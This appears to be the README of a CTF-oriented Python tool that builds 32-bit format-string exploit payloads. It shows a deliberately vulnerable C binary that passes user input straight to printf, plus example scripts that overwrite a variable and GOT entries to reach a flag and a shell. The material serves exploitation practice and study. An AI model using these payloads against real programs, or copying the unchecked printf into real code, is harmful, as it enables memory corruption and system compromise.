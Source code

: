 Format String Exploit Payload Generator
=======================================

* Support Python2
* Support 32 bits now(64 bits working on it)

`FormatStringExploit` object has attributes:

* printed
    * For padding or something before format string attack payload
* hij_tar
    * The address of target you want to hijack
* hij_val
    * The value you want that target to be

### Usage

I will show its usage by use example binary which has format string vulnerability.

**The author of this example binary is [Angelboy](https://github.com/scwuaptx).**

This binary src code:

```c
#include <stdio.h>

int magic = 0 ;

int main(){
	char buf[0x100];
	setvbuf(stdout,0,2,0);
	puts("Please crax me !");
	printf("Give me magic :");
	read(0,buf,0x100);
	printf(buf);
	if(magic == 0xda){
		system("cat /home/craxme/flag");
	}else if(magic == 0xfaceb00c){
		system("cat /home/craxme/craxflag");
	}else{
		puts("You need be a phd");
	}

}
```
#### First - make magic == `0xfaceb00c`

```python
from fmtexp import FmtStrExp

magic_address = 0x0804a038
password = 0xfaceb00c

fmt = FmtStrExp(printed = 0, hij_tar = magic_address, hij_val = password)
fmt = [(fmt, 4)]
payload = FmtStrExp.generate32(fmt, 7)
```

**Before trying this one, make sure you have flag in the /home/craxme**

[Exploit](https://github.com/Naetw/CTF-pwn-tips/blob/master/formatstring/sample/excat.py)


#### Second - get shell

To get shell, we need to make magic == `0xda`, system == main, and printf == system at a time.

```python
from fmtexp import FmtStrExp

puts_got = 0x804a018
system_jmp = 0x8048416
system_got = 0x804a01c
printf_got = 0x804a010
main = 0x0804854b
magic = 0x0804a038

magic_fmt = FmtStrExp(0, magic, 0xda)
printf_got_fmt = FmtStrExp(0, printf_got, system_jmp)
system_got_fmt = FmtStrExp(0, system_got, main)
total_fmt = [(magic_fmt, 1), (printf_got_fmt, 4), (system_got_fmt, 4)]
payload = FmtStrExp.generate32(total_fmt, 7)
```

[Exploit](https://github.com/Naetw/CTF-pwn-tips/blob/master/formatstring/sample/exsh.py)
